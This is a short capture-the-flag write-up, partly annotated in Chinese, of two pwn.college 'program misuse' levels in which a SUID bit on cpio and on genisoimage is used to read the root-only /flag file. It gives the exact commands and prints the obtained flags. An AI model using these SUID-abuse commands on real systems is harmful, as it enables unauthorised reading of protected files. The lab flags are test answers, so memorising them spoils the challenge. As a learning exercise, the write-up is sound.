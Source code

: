 ## level22 Forces you to understand different archive formats!
```
hacker@program-misuse-level-22:~$ sh file.sh
Welcome to ./babysuid_level22!

This challenge is part of a series of programs that
force you to understand different archive formats.

I just set the SUID bit on /usr/bin/cpio.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level22) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/cpio!
```
`cpio`工具，用于文件备份的
```
hacker@program-misuse-level-22:~$  find /flag | cpio -ov > archive.cpio
/flag
1 block
hacker@program-misuse-level-22:~$ ls /
bin   challenge  etc   home  lib32  libx32  mnt  proc  run   srv  tmp  var
boot  dev        flag  lib   lib64  media   opt  root  sbin  sys  usr
hacker@program-misuse-level-22:~$ ls
Desktop    Downloads  Pictures  Templates  archive.cpio  file.sh
Documents  Music      Public    Videos     core          test.py
hacker@program-misuse-level-22:~$ cat archive.cpio
�wd�9/flagpwn.college{om324dLj5vHeY7kTe9p_qAFQ1Cy.0FN2EDL2QjMyMzW}
�
 TRAILER!!!hacker@program-misuse-level-22:~$
```

## level23 Forces you to understand different archive formats!
```
hacker@program-misuse-level-23:~$ sh file.sh
Welcome to ./babysuid_level23!

This challenge is part of a series of programs that
force you to understand different archive formats.

I just set the SUID bit on /usr/bin/genisoimage.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level23) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/genisoimage!
```
`genisoimage`工具，能看出来作用是建立ISO 9660映像文件
```
er@program-misuse-level-23:~$  genisoimage -sort /flag
genisoimage: Incorrect sort file format
        pwn.college{YROFw7Q_KvLF86Vs3WeI_XDvziT.0VN2EDL2QjMyMzW}
hacker@program-misuse-level-23:~$
```
*这块儿好像cat不太星了，输出会打乱shell*
